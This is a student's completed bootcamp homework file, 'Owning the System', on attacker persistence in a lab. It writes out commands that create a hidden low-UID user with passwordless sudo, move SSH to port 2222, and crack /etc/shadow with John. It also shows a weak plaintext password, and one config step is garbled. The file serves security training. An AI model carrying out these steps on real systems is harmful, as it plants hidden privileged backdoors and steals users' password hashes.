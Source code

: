 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    ```bash
    $ sudo useradd -M sysd
    ```

2. Give your secret user a password: 
    ```bash
    $ sudo passwd sysd
    $ Password: hello123

    ```

3. Give your secret user a system UID < 1000:
    ```bash
    $ sudo usermod -u 500 sysd
    ```
    
4. Give your secret user the same GID:
    ```bash
    $ sudo groupmod -g 500 sysd
    ```

5. Give your secret user full `sudo` access without the need for a password:
    ```bash
    $ sudo usermod -aG sudo sysd
    $ sudo visudo
    $ sysd ALL=(ALL) NOPASSWD:ALL
    ```

6. Test that `sudo` access works without your password:
    ```bash
    $ sudo -l
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    $ nano /etc/ssh/ssh
    ```
    Port 2222
**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    ```bash
    $ service ssh restart
    ```

2. Exit the `root` account:
    ```bash
    $ exit
    ```

3. SSH to the target machine using your `sysd` account and port `2222`:
    ```bash
    $ ssh sysd@192.168.6.105 -p 2222
    ```

4. Use `sudo` to switch to the root user:
    ```bash
    $ sudo su
    ```

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:
    ```bash
    $ ssh sysd@192.168.6.105 -p 2222
    ```

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:
    ```bash
    $ john /etc/shadow
    ```

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

